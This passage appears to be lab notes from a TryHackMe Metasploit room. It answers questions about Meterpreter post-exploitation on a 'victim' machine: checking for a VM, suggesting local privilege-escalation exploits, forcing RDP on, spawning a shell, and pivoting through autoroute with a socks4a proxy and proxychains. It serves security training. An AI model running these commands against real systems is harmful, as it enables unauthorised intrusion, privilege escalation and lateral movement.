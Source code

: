 - What command do we run to transfer files to our victim computer?

    `upload`

- How about if we want to run a Metasploit module?

    `run`

- A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?

    `ipconfig`

- Let's go ahead and run a few post modules from Metasploit. First, let's run the command `run post/windows/gather/checkvm`. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.

![Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%2012.png](Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%2012.png)

- Next, let's try: `run post/multi/recon/local_exploit_suggester`. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room `Ice`

    ![Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%2013.png](Metasploit%20-%20TryHackMe%200ffcc85fa5b64b8c9fce5c4e45a15c58/Untitled%2013.png)

- Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: `run post/windows/manage/enable_rdp`
- One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?

    `shell`

# Task 7 : Makin' Cisco Proud

- Let's go ahead and run the command `run autoroute -h`, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.

    `run autoroute -s 172.18.1.0 -n 255.255.255.0`

- Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command `search server/socks4a`. What is the full path to the socks4a auxiliary module?

    `auxiliary/server/socks4a`

- Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains?

    `proxychains`